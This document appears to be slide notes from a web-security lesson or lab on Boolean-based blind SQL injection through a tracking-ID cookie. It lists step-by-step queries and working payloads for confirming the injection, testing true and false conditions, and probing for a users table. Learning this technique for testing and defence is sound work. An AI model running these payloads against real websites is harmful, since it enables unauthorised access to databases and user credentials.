

Exploiting blind SQL injection by triggering conditional responses(Boolean base):
1.Confirm that the parameter is vulnerable to Blind Sqli attack:
query--->	SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2'
	if this tracking ID exits on database --->welcome messege---> Query return value
	if does't exit ------> Query return nothing

2.Check True useCase:
	SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2' AND 1=1--
       	 payload: ' AND 1=1--
	TRUE:Welcome Back
	FALSE:Nothing 1=2--(Now we can exploit blind sqli)
3.Confirm that we have a users table:
query--> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'rEUHIfcKKKWib5b2' AND (SELECT 'a' from users LIMIT 1)='a'--		payload:' AND (SELECT 'a' from users LIMIT 1)='a'--
				a=any number;LIMIT 1= only for one user
		if return Welcome ----> exits users table